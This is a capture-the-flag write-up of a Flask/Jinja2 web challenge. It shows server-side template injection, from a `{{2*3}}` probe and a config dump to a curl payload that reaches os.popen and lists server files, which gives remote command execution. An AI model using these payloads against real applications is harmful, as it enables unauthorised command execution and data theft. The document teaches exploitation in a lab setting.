


# Templated

## Abstract
*Category* : **web challenge**<br/>
*Challenge name* : **Templated**<br/>
*Host* : `138.68.156.57:32358`<br/>
*Description* : Can you exploit this simple mistake?<br/>
*Status* : **SOLVED**<br/>

## Walktrough
When we open the wesbite with our browser of choice, we only see the following simple webpage:  

<br/>
<h1>Site still under construction</h1>
<p>Proudly powered by Flask/Jinja2</p>
<br/>
<br/> 

At first glance there seem to be no obvious entry points on which we can leverage.  
The name of the challenge (*Templated*) and the site description (*Proudly powered by Flask/Jinja2*) might be helpful clues, maybe we need to use  
Jinja2 templating to exploit the vulnerability 🤔  

It is probable that we need to look for server side template injection.  
Let's do a quick google search for `Jinja2 server side template injection`.  
After reading a bit about this topic, one thing I can think of is to try to submit a simple Jinja2 payload  
to check if the server is sensitive and behaving in a dangerous way, Let's try to pass `{{2*3}}` at the end of the URL:  
<br/>
<div style="width: 65%; height: 65%">

  
  
</div>  

As we can see the page responds by computing the product of `2` and `3`  
and mistakenly interpreting the result (`6`) as a web page to search on the server.  
And this is the proof we were looking for, the site is vulnerable to template injection.  
now we just have to figure out how to exploit this vulnerability to our advantage.  

Since with can weaponize Jinja2, maybe we can use it to to force python to execute command against the underlying operating system.
Since it says that the web app is madee in Flask, Let's see if we can inject a payload to print flask.config.  
```console
curl http://138.68.156.57:32358/%7B%7Bconfig.items\(\)%7D%7D                                                                                                  ─╯

<h1>Error 404</h1>
<p>The page '<str>dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, None), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, None), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, datetime.timedelta(seconds=43200)), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)])</str>' could not be found</p>
```  

We were successful once again, the final exploit is taking shape!  
Continuing the research I understand that we can take advantage of the Pyton *MRO* (Method Resolution Order) to build a more targeted payload,<br/> going up the dependency tree of the Python classes.

After another bit of research I learned the syntax to execute the python <a href="https://docs.python.org/3/library/subprocess.html#subprocess.Popen" target="_blank">popen</a></li> process:
```console
curl $'http://138.68.156.57:32358/%7B%7Brequest.application.__globals__.__builtins__.__import__(\'os\').popen(\'ls\').read()%7D%7D' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux aarch64; rv:104.0) Gecko/20100101 Firefox/104.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1'

<h1>Error 404</h1>
<p>The page '<str>bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</str>' could not be found</p>%   
```

Note that we can see a `flag.txt` file! 
Let's modify our payload one more time in order to read that file content:

<br/>
<div style="width: 65%; height: 65%">

  
  
</div>  

And we are done! 👏👏👏